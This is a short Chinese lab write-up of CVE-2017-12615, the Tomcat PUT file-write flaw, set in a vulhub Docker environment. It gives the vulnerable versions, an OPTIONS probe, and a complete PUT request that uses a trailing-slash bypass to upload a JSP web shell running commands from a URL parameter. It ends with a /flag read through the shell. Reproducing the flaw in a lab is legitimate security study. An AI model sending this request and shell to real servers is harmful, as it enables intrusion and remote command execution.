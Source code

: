 CVE-2017-12615:任意PUT写文件漏洞
vulhub中可docker复现。

put方法上传shell.jsp木马
>条件：
>1. Tomcat满足版本:
            7版本<=7.0.81
            8版本<=8.5.20
            9版本<=9.0.0.M26
>2. Tomcat配置了readonly=false
## **漏洞原理**
Tomcat的配置文件conf/web.xml默认是readonly参数为true，不允许使用PUT和DELETE方法，但如果设置为false，就允许使用PUT和DELETE方法上传和删除文件。
## **验证利用**
1. 测试是否支持PUT请求:
OPTIONS请求请求一个404页面，测试网站返回可发起的请求方式，看到可支持PUT。
OPTIONS /404 HTTP/1.1

2. 发送以下数据包即可在Web根目录写入shell.jsp：
   不让直接上传/shell.jsp，上传/shell.jsp/即可绕过。
```
PUT /shell.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

<% if("x".equals(request.getParameter("pwd"))){
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    out.print("<pre>");
    while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
    out.print("</pre>");
}
%>
```
上传了shell.jsp在/usr/local/tomcat/webapps/ROOT/目录下。ROOT/是tomcat的启动页程序。
可以访问/shell.jsp?pwd=x&i=cat /flag执行shell命令并回显。